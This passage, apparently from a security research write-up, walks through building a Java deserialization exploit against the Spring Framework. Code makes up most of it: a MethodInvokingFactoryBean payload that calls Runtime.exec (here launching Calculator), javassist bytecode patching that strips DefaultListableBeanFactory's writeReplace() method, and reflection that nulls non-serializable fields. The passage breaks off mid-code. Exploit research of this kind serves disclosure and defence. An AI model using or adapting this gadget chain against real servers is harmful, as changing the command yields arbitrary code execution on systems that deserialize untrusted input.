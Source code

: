```lang-java line-numbers 
// Exploit bean to be registered in the bean factory as the target source
GenericBeanDefinition payload = new GenericBeanDefinition();
payload.setBeanClass(MethodInvokingFactoryBean.class);
payload.setScope("prototype");
payload.getPropertyValues().add("targetObject", runtime);
payload.getPropertyValues().add("targetMethod", "exec");
payload.getPropertyValues().add("arguments", Collections.singletonList("/Applications/Calculator.app/Contents/MacOS/Calculator"));
```

Ok, so we only need to create a bean factory and register our **payload** bean as the "exploit" bean that our TargetSource is going to instantiate. The only problem is that although a DefaultListableBeanFactory is serializable, it contains a **writeReplace()** method that will replace the factory with a reference when serialized. If the server doesnt know the serialized reference, then our deserialization will fail. In order to bypass this limitiation, we will be modifying the **DefaultListableBeanFactory** bytecode using **javaassist** to remove the **writeReplace()** method (well, actually rename it):

```lang-java line-numbers 
// Get a DefaultListableBeanFactory modified so it has no writeReplace() method
// We cannot load DefaultListableFactory till we are done modyfing it otherwise will get a "attempted duplicate class definition for name" exception
System.out.println("[+] Getting a DefaultListableBeanFactory modified so it has no writeReplace() method");
Object instrumentedFactory = null;
ClassPool pool = ClassPool.getDefault();
try {
    pool.appendClassPath(new javassist.LoaderClassPath(BeanDefinition.class.getClassLoader()));
    CtClass instrumentedClass = pool.get("org.springframework.beans.factory.support.DefaultListableBeanFactory");
    // Call setSerialVersionUID before modifying a class to maintain serialization compatability.
    SerialVersionUID.setSerialVersionUID(instrumentedClass);
    CtMethod method = instrumentedClass.getDeclaredMethod("writeReplace");
    //method.insertBefore("{ System.out.println(\"TESTING\"); }");
    method.setName("writeReplaceDisabled");
    Class instrumentedFactoryClass = instrumentedClass.toClass();
    instrumentedFactory = instrumentedFactoryClass.newInstance();
} catch (Exception e) {
	e.printStackTrace();
}

// Modified BeanFactory
DefaultListableBeanFactory beanFactory = (DefaultListableBeanFactory) instrumentedFactory;
beanFactory.registerBeanDefinition("exploit", payload);
```

So far so good, now if we try to serialize the factory we will be getting errors since although a bean factory is Serializable, it contains members that are not serializable :$
Fortunately for us, these members can be nullified without affecting the bean generation. We will be using Java reflection to nullify them:

```lang-java line-numbers 
// Preparing BeanFactory to be serialized
System.out.println("[+] Preparing BeanFactory to be serialized");
System.out.println("[+] Nullifying non-serializable members");
try {

	Field constructorArgumentValues = AbstractBeanDefinition.class.getDeclaredField("constructorArgumentValues");
	constructorArgumentValues.setAccessible(true);
	constructorArgumentValues.set(payload,null);
	System.out.println("[+] payload BeanDefinition constructorArgumentValues property should be null: " + payload.getConstructorArgumentValues());

	Field methodOverrides = AbstractBeanDefinition.class.getDeclaredField("methodOverrides");
```